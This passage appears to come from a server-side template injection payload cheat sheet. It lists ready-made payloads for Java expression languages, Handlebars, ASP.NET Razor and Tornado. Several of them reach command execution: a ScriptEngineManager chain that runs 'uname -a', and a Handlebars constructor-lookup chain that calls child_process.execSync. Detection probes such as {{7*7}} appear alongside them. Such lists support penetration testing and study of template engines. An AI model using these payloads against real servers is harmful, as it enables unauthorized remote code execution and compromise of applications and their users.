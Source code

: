 
    {{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"uname\\\",\\\"-a\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}

## Handlebars

### Handlebars - Command Execution

    {{#with "s" as |string|}}
      {{#with "e"}}
        {{#with split as |conslist|}}
          {{this.pop}}
          {{this.push (lookup string.sub "constructor")}}
          {{this.pop}}
          {{#with string.split as |codelist|}}
            {{this.pop}}
            {{this.push "return require('child_process').execSync('ls -la');"}}
            {{this.pop}}
            {{#each conslist}}
              {{#with (string.sub.apply 0 codelist)}}
                {{this}}
              {{/with}}
            {{/each}}
          {{/with}}
        {{/with}}
      {{/with}}
    {{/with}}

## ASP.NET Razor

### ASP.NET Razor - Basic injection

    @(1+2)

### ASP.NET Razor - Command execution

    @{
      // C# code
    }
    

## Tornado

### Detection

`{{7*7}}` will return 49

### Command Execution

`{% SINGLE-LINE-PYTHON-CODE-HERE %}`

